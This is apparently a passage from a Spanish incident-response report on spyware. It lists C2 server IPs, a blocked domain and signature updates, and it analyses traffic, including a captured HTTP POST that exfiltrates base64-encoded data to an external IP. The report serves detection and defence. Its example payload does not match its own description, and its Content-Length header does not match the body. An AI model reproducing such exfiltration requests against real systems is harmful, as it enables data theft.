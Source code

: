 ##### Servidores Asociados

- **Servidor Primario:** IP `95.213.255.1` – Actuó como el servidor principal para el almacenamiento de datos exfiltrados y la administración del spyware.
- **Servidores Secundarios:** IPs `95.213.255.2` y `95.213.255.3` – Utilizados para redundancia y para manejar cargas adicionales de tráfico malicioso.

##### Medidas Implementadas

- **Bloqueo de Dominios:** Se bloqueó el acceso a `nutri-softupdate.com` y todos sus subdominios en los sistemas de filtrado de contenido y firewalls corporativos.
- **Actualización de Firmas de Seguridad:** Se actualizaron las firmas en las soluciones de seguridad para detectar y bloquear automáticamente cualquier tráfico relacionado con estos dominios y servidores.


#### 3.3.2 Análisis de Tráfico de Red

El análisis del tráfico de red realizado durante la investigación del incidente reveló varias anomalías que sugieren la presencia de comunicaciones maliciosas entre el dispositivo comprometido y un servidor de comando y control (C2). A continuación se detallan los principales hallazgos:

- **Comunicación No Autorizada:** Se detectaron múltiples solicitudes HTTP salientes desde el dispositivo comprometido hacia una IP no categorizada ubicada en Europa del Este (IP: 178.62.240.1). Estas solicitudes comenzaron inmediatamente después de la instalación del spyware, lo que indica que el dispositivo estaba enviando datos exfiltrados a un servidor externo.

- **Análisis de Paquetes:** El análisis de los paquetes capturados mostró que los datos enviados incluían información codificada en base64, lo que dificultaba la identificación inmediata del contenido sin una decodificación adecuada.

- **Volumen de Tráfico:** Durante un período de 24 horas, el dispositivo comprometido generó un volumen anómalo de tráfico de 200 MB, significativamente superior al promedio diario de 50 MB para un usuario típico. Este aumento en el tráfico fue un indicador clave de la actividad maliciosa.

- **Comportamiento del Malware:** El análisis detallado del tráfico sugirió que el malware estaba configurado para enviar pulsaciones de teclas, capturas de pantalla y archivos locales a intervalos regulares de 10 minutos. 

##### Ejemplo de Solicitud HTTP

A continuación se presenta un ejemplo de una solicitud HTTP maliciosa capturada durante el análisis:

```http
POST /upload HTTP/1.1
Host: 178.62.240.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 349

data=cmVzdWx0cz1zdWNjZXNzJmZpbGU9ZGV0YWlscy5leGUmY29udGVudD1IZWxsbyUyQw==
```

- **Método:** `POST` utilizado para enviar datos al servidor C2.
- **Destino:** IP externa (178.62.240.1) fuera de las redes corporativas autorizadas.
- **Contenido Codificado:** Los datos en el campo `data` estaban codificados en base64, lo que tras la decodificación reveló contenido sensible relacionado con documentos laborales.
